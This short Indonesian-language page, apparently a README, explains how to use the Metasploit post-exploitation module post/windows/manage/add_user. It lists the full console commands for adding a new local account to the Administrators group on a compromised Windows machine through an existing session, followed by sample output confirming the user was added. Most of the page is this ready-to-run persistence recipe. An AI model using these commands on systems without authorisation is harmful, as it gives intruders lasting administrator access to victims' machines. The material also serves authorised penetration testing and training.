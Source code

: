 # add_user

Modul `add_user` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk menambahkan akun pengguna lokal baru pada komputer target.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/add_user
set ADDTODOMAIN false
set ADDTOGROUP true
set GROUP Administrators
set PASSWORD <PASSWORD>
set SESSION <ID>
set USERNAME <USERNAME>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module on 'ADMIN-PC'
[*] Local Mode
[+] User 'fixploit03' was added.
[+] 'fixploit03' is now a member of the 'Administtators' group.
[*] Post module execution completed
```
